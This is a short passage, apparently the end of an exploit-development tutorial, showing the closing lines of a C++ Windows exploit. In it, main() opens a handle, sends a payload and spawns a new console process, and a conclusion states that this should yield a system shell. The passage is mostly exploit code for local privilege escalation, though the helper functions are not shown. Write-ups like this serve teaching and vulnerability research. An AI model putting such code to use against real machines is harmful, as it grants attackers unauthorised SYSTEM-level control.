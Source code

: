```cpp
        NULL, 
        0, 
        CREATE_NEW_CONSOLE, 
        NULL, 
        NULL, 
        &Startup_Info, 
        &Process_Info);
}

int main()
{
    HANDLE hFile = get_handle();

    send_payload(hFile);

    spawn_shell();
}
```

## Conclusion
This should net you a system shell. 

![](/assets/images/AWE/intover6.PNG)
